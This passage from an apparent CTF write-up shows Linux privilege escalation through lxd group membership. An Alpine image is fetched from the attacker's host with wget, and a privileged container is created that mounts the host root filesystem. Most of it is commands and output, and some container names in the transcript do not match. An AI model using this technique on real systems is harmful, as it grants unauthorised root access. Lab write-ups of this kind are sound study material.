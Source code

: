 Now, onto privilege escalation!

Usually, this moment in a CTF would have me enumerating by using automated tools such as linPEAS and looking around the box to find anything out of the ordinary. However, as you may have seen from when we got the intial shell, we know that our user `www-data` is part of the `lxd` group. The lxd group is a group that typically allows a user to use LXD, which is a Linux container manager. By the nature of containers, they are usually required to be run by a highly privileged daemon. Since we are part of the lxd group, I suspect that we will be able to use `lxc` to interface with the LXD daemon and escalate our privileges. 

Since we're dealing with containers, we're likely to need a container image. You can find a compileable version of Alpine for Linux at [this](https://github.com/saghul/lxd-alpine-builder) Github page. Just clone the Github page and run `./build-alpine` and it will generate an Alpine image for you.

I start by switching to the directory `/dev/shm`. This is a directory that is highly likely to be writeable by even low privileged users. Then, I launch local HTTP server and use `wget` to download my Alpine image. My HTTP server of choice is called Updog. It can be installed with `pip3 install updog`. 
<br/>

```
www-data@ubuntu:/$ cd /dev/shm
cd /dev/shm
www-data@ubuntu:/dev/shm$ wget 10.13.1.225:9090/alpine-v3.12-x86_64-20200929_2146.tar.gz

--2020-10-02 13:55:51--  http://10.13.1.225:9090/alpine-v3.12-x86_64-20200929_2146.tar.gz
Connecting to 10.13.1.225:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3194888 (3.0M) [application/x-tar]
Saving to: 'alpine-v3.12-x86_64-20200929_2146.tar.gz'

alpine-v3.12-x86_64 100%[===================>]   3.05M   704KB/s    in 8.9s    

2020-10-02 13:56:01 (351 KB/s) - 'alpine-v3.12-x86_64-20200929_2146.tar.gz' saved [3194888/3194888]
```

With the Alpine image now downloaded to the victim machine, I can begin the privilege escalation process. I start by importing the image with the alias "privesc" by using this command: `lxc image import ./alpine-v3.12-x86_64-20200929_2146.tar.gz --alias privesc`. I proceed by using `lxc image list` to confirm that the import has been successfull, then I use `lxc init privesc joker -c security.privileged=true` to initialize the container with the name "joker." The `security.privileged` flag gives this container the privilege to access all the files we ask it to.

After that, I use the command `lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true` to add a disk to the container whose source is `/`, whose mount path is `/mnt/root`, and with the recursive flag set to `true`. In other words, this container will contain all files on the system.
<br/>

```
www-data@ubuntu:/dev/shm$ lxc image import ./alpine-v3.12-x86_64-20200929_2146.tar.gz --alias privesc      
<ine-v3.12-x86_64-20200929_2146.tar.gz --alias joker
www-data@ubuntu:/dev/shm$ 
www-data@ubuntu:/dev/shm$ lxc image list
<--Snipped!-->
www-data@ubuntu:/dev/shm$ lxc init privesc joker -c security.privileged=true
Creating joker
www-data@ubuntu:/dev/shm$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true                         
Device mydevice added to joker
```
